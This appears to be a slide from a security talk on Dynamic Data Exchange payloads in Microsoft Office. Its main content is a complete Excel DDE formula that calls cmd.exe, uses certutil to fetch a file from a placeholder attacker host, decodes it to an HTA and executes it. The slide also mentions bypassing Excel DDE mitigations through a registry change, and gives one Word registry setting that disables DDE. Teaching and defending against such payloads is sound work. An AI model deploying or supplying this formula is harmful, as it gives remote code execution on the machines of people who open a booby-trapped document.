

# Payloads - Dynamic Data Exchange
Microsoft Word
Patch pushed December of 2017
HKEY_CURRENT_USER\Software\Microsoft\Office\<version#>\Word\Security\AllowDDE = 0
Microsoft Excel
=MSEXCEL|'..\..\..\..\..\..\..\windows\\system32\cmd.exe /c certutil -urlcache -split -split -f http://ATTACKERIP/testpoc64.txt %appdata%\testpoc64.txt && certutil -decode %appdata%\testpoc64.txt %appdata%\testpoc.hta && %appdata%\testpoc.hta'!A0
Microsoft Publisher
Bypass potential Excel DDE mitigations via registry modification